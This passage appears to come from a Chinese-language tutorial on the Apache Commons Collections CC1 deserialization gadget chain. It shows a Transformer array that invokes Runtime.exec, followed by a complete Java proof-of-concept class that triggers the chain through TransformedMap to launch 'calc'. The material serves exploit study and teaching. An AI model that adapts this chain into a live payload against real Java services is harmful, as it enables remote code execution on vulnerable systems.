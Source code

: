 转化为 `Transformers` 就是：  

```
Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
    new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),
    new InvokerTransformer("exec", new Class[] { String.class }, new String[] {"calc"}),
};
```
 
 到此处我们命令执行的POC代码为：  
```
package org.vulhub;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class CC1_1 {
    public static void main(String[] args) throws Exception{

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class }, new String[] {"calc" }),
        };

        Transformer transformerChain = new ChainedTransformer(transformers);

        Map map = new HashMap();
        map.put("k", "v");
        Map<Object, Object> transformedMap = TransformedMap.decorate(map, null, transformerChain);


        for (Map.Entry entry: transformedMap.entrySet()) {
            entry.setValue(1234);
        }

    }
}
```
